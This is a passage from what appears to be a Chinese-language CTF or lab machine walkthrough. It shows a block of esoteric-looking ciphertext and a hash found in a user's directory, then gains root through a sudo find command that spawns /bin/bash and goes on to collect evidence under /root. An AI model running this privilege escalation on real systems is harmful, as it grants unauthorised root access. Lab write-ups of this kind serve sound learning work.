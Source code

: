 ![image-20210307195607693](../assets/img/text/image-20210307195607693.png)

```
'&%$#"!~}|{zyxwvut210/.-,+k)(!Efedcba`_^]\[ZYXWVUTpohmlkjihg`&GFEDCBA@?>=<;:
9876543210/.-,+*)('&%$#"!~}|{zyxwvutsrqponmlkjihgfedcba`_^]\[ZYXWmrkponmlkdc
b(`_dc\"`BX|?>Z<RWVUNSRKoONGLKDh+*)('&BA:?>=<;:92Vw/43,10)Mnmlkjihgfedcba`_^
]\[ZYXWVUTSRQPONMLKJIHGFEDCBA@?>=<;:9UTSRQ3ONMLKJCg*)('&%$#"!~}|{zyxwvutsrq/
(-,+*)('&}|B"b~}v{ts9wputsrqj0QPONMLKJIHGFEDCBA@?>=<;:9876543210/.-,+*)('&%$
#"!~}|{zyxwvutsr0/.-,+*)(!~%|Bcba`_^]\[ZYXWVUTSRQPONMLKJIHGFEDCBA@?>=<;:9876
543210/.-,+*)('&B$:?>=<;:3270Tu-,+O/.n,%Ijihgfedcba`_^]\[ZYXWVUTSonmlkMibgf_
^$EaZ_^]VUy<XWPOs6543210/.-,+*)('&%$#"!~}|{zyxwvutsrqponmlkjihgfedcba`_^]\[Z
YXWVUTSRQPONjihgfedcb[ZBX|\UZYRv9876543210/.-,+*)('&B$@?>=<5:381Uvutsrqpo-,+
k)"'&%|{Aba`_^]yxwYutsrqpi/PONMLKJIHGFEDCBA@?>=<;:9876543210/.-,+*)('&%$#"!~
}|{zyxwvutsrqponmlkjihgfedcba`_{]sxwvutslkji/PONMLKaf_^]ba`_^W{[ZYXWPOsMRQJI
mGLKJIHG@dDCB;:9]~6;:92Vwvutsrqponmlkjihgfe#"!~}|{zyxq7utsrTpong-NMLKJIHGFED
CBA@?>=<;:9876543210/.-,+*)('&%$#"!~}|{zyxwvutsrqponmlkjihgfedcba`_^]sxwvuts
rqjihg-,w
```

``dd69f649f3e5159ddd10b83b56b2dda2``这是在squiddie目录下找到的密文，还有一封给michael的信

![image-20210307200048960](../assets/img/text/image-20210307200048960.png)

拿了一堆不知道有啥用的文本，暂时至收集到这些东西，试试find提权

`sudo find user.txt -exec "/bin/bash" \;`

user.txt这个必须是要存在的文件，所以可以去Desktop目录下提权

![image-20210307215755709](../assets/img/text/image-20210307215755709.png)

提权成功后可以去root目录下继续收集证据

![image-20210307215908110](../assets/img/text/image-20210307215908110.png)
